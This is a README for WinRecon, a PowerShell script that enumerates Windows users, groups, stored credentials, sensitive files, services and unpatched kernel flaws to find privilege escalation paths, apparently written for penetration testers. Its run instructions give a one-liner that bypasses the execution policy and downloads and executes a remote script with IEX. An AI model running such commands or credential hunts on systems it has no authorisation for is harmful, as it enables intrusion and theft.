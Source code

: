 # ![WinRecon Logo](assets/winrecon-logo.png)

## WinRecon

**WinRecon** is a PowerShell-based enumeration script designed to gather essential system information needed to identify potential privilege escalation opportunities on Windows machines. It automates the process of collecting valuable data to assist penetration testers, red teams, and system administrators in finding weaknesses that could lead to elevation of privileges.

---

## Features

### User and Group Enumeration
- **Local User Accounts**: Lists all local user accounts and highlights administrative accounts.
- **Group Memberships**: Displays detailed information about group memberships.
- **Domain Information**: Extracts information about domain users and domain controllers when applicable.

### Credential Discovery
- **Stored Credentials**: Identifies credentials stored in the system, such as in the registry or configuration files.
- **Password Policies**: Retrieves domain and local password policies to highlight weak configurations.

### Service and Task Enumeration
- **Services**: Lists services with details like privileges, paths, and configurations.
- **Scheduled Tasks**: Enumerates scheduled tasks to identify potential execution vectors.

### Privilege Escalation Insights
- **System Information**: Extracts OS details, patches, and configurations.
- **Misconfigurations**: Identifies potential misconfigurations, such as writable directories or vulnerable registry keys.
- **Kernel Exploits**: Checks for unpatched kernel vulnerabilities based on OS version.

### File and Directory Insights
- **Sensitive Files**: Searches for files containing potential credentials or sensitive data.
- **Writable Directories**: Lists directories writable by non-privileged users.

### Network Configuration
- **Network Interfaces**: Displays information about active network interfaces.
- **Listening Ports**: Identifies listening ports and associated services.

### Logging and Reporting
- **Comprehensive Logging**: Logs findings to a structured and easily readable format.
- **Export Options**: Provides options to save results for later analysis.

---

## How to Run

1. **For full AD options you will need to download PsLoggedon.exe and PowerView.ps1**.
2. Run the script with the following command:
   ```powershell
   powershell -ep Bypass -Command 'IEX(IWR http://<LocalHost>/winrecon.ps1 -UseBasicParsing)'
   ```



